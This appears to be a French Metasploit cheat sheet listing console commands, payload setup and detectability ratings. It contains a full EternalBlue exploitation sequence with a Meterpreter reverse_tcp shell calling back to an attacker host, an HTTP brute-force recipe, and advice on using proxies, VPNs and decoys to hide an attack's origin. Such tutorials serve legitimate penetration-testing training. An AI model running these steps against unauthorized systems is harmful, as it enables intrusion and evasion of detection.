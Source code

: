 # 😁 Metasploit

#### Introduction

Metasploit est un framework open-source pour le développement et l'exécution d'exploits contre des systèmes distants. Il est conçu pour aider les professionnels de la sécurité à identifier et à exploiter les vulnérabilités dans les systèmes informatiques.

#### Installation de Metasploit

**Sous Linux (Debian/Ubuntu)**

```bash
sudo apt update
sudo apt install metasploit-framework
```

**Sous Windows**

Télécharge le programme d'installation depuis le site officiel de Metasploit et suis les instructions.

#### Démarrage de Metasploit

1.  **Lancer Metasploit Console**

    ```bash
    msfconsole
    ```

    * **Explication** : Lance la console interactive de Metasploit où tu peux exécuter des commandes, rechercher des exploits, et gérer des sessions.
    * **Discrétion** : N/A. Ce n'est pas un scan ou une attaque, donc la discrétion n'est pas un problème ici.

#### Commandes Principales de Metasploit

1.  **Recherche d'exploits**

    ```bash
    search <mot-clé>
    ```

    * **Explication** : Recherche des modules, des exploits, et des payloads correspondant au mot-clé spécifié.
    * **Discrétion** : N/A. Utilisé pour rechercher des modules, ne génère pas de trafic réseau visible.
2.  **Affichage des informations sur un exploit**

    ```bash
    info <nom_du_module>
    ```

    * **Explication** : Affiche les informations détaillées sur un module spécifique, y compris les options, les cibles, et les descriptions.
    * **Discrétion** : N/A. Information sur les modules, pas d'activité de scan ou d'exploitation.
3.  **Sélectionner un exploit**

    ```bash
    use <nom_du_module>
    ```

    * **Explication** : Sélectionne un module d'exploit pour l'utiliser dans Metasploit.
    * **Discrétion** : N/A. Cette commande sélectionne simplement un module pour une utilisation ultérieure.
4.  **Configurer les options de l'exploit**

    ```bash
    set <option> <valeur>
    ```

    * **Explication** : Configure les options nécessaires pour l'exploit, comme l'adresse IP cible et les paramètres spécifiques.
    * **Discrétion** : N/A. Configure les paramètres de l'exploit sans effectuer d'attaque réelle.
5.  **Afficher les options disponibles**

    ```bash
    show options
    ```

    * **Explication** : Affiche les options configurables pour le module actuel.
    * **Discrétion** : N/A. Affiche simplement les options configurables.
6.  **Lancer l'exploit**

    ```bash
    exploit
    ```

    * **Explication** : Lance l'exploit avec les options configurées. Peut essayer de pénétrer un système cible en exploitant une vulnérabilité.
    * **Discrétion** : Faible à moyenne. Peut être détecté par des IDS/IPS et générer des alertes.
7.  **Afficher les sessions ouvertes**

    ```bash
    sessions
    ```

    * **Explication** : Liste toutes les sessions ouvertes avec les systèmes compromis.
    * **Discrétion** : N/A. Gestion des sessions après exploitation.
8.  **Interagir avec une session**

    ```bash
    sessions -i <id_de_session>
    ```

    * **Explication** : Permet d'interagir avec une session active pour contrôler le système compromis.
    * **Discrétion** : Faible. Activité sur le système cible, potentiellement détectée par des systèmes de surveillance.

#### Modules et Payloads

1.  **Rechercher des modules**

    ```bash
    search <type:exploit> <mot-clé>
    ```

    * **Explication** : Recherche des exploits ou des modules spécifiques en fonction du type et du mot-clé.
    * **Discrétion** : N/A. Utilisé pour rechercher des modules, ne génère pas de trafic réseau visible.
2.  **Rechercher des payloads**

    ```bash
    search <type:payload> <mot-clé>
    ```

    * **Explication** : Recherche des payloads disponibles correspondant au mot-clé spécifié.
    * **Discrétion** : N/A. Recherches internes pour les payloads, pas d'activité externe.
3.  **Configurer un payload**

    ```bash
    set PAYLOAD <nom_du_payload>
    ```

    * **Explication** : Configure le payload à utiliser avec l'exploit sélectionné.
    * **Discrétion** : N/A. Configure les options pour le payload.
4.  **Afficher les payloads disponibles**

    ```bash
    show payloads
    ```

    * **Explication** : Affiche une liste des payloads disponibles pour le module d'exploit actuel.
    * **Discrétion** : N/A. Affiche les options disponibles, pas de trafic réseau.

#### Options Avancées

1.  **Utilisation de Metasploit avec des proxys**

    ```bash
    setg Proxies http://<proxy_address>:<port>
    ```

    * **Explication** : Configure Metasploit pour utiliser un proxy HTTP, ce qui peut aider à masquer l'origine des attaques.
    * **Discrétion** : Haute. Masque l'origine des requêtes en utilisant un proxy.
2. **Utilisation de VPN pour masquer l'origine**
   * **Explication** : En utilisant Metasploit via un VPN, tu peux masquer l'origine de ton activité.
   * **Discrétion** : Très haute. Utiliser un VPN ajoute une couche de dissimulation.
3. **Utilisation de decoy hosts**
   * **Explication** : Lorsque tu réalises des scans, utiliser des hôtes leurres pour masquer l'origine réelle.
   * **Discrétion** : Très haute. Les leurres compliquent la détection de la source réelle des activités.

#### Exemples de Scénarios

1.  **Exploitation d’une vulnérabilité connue**

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    exploit
    ```

    * **Explication** : Utilise l'exploit EternalBlue pour exploiter une vulnérabilité SMB sur une machine Windows, avec un payload Meterpreter pour la connexion inverse.
    * **Discrétion** : Faible. Les exploits bien connus comme EternalBlue peuvent être détectés par des IDS/IPS.
2.  **Scan de port et identification du système d’exploitation**

    ```bash
    use auxiliary/scanner/portscan/tcp
    set RHOSTS 192.168.1.10
    run
    ```

    * **Explication** : Utilise un module de scan de ports pour identifier les ports ouverts sur une cible.
    * **Discrétion** : Moyenne. Le scan de ports peut être détecté et générer des alertes.
3.  **Utilisation de Metasploit pour une attaque par force brute**

    ```bash
    use auxiliary/scanner/http/http_login
    set RHOSTS 192.168.1.10
    set TARGETURI /login
    set USER_FILE /path/to/usernames.txt
    set PASS_FILE /path/to/passwords.txt
    run
    ```

    * **Explication** : Utilise un module de force brute pour tester des combinaisons de noms d’utilisateur et mots de passe sur une interface de connexion HTTP.
    * **Discrétion** : Faible. Les tentatives de connexion par force brute peuvent facilement être détectées par des systèmes de surveillance.
